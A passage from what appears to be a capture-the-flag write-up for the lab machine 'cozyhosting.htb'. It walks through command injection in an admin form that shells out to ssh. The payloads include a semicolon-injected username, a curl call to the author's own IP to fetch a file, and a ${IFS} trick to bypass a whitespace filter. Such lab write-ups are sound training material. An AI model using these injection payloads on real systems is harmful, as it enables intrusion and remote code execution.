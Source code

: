 The error message contained in the redirect URL was about the host key verification.

```http
HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 11 Nov 2023 20:12:22 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=Host key verification failed.
Connection: keep-alive
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
```

When I try sending a semicolon, the error was different.


```
host=localhost&username=kanderson;
```

```
Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname kanderson: Temporary failure in name resolution/bin/bash: line 1: @localhost: command not found
```

I was killing the command. The server was probably running something like this:

```bash
ssh username@host
```

The semicolon was breaking the command. It tried to connect to a server called 'username', but that failed. Then use `@localhost` as another command. Which also failed.

```bash
$ ssh username;@hostname
ssh: Could not resolve hostname username: Temporary failure in name resolution
zsh: command not found: @hostname
```

I tried to use that to fecth a file from my machine.

```
host=localhost&username=kanderson;curl 10.10.14.59#
```

I was not allowed to use whitespaces in the username.

```
Location: http://cozyhosting.htb/admin?error=Username can't contain whitespaces!
```

That was easy to get around. In bash, you can use `${IFS}` as a whitespace.

```bash
$ ls${IFS}-1${IFS}/
app
bin
boot
dev
etc
home
...
```
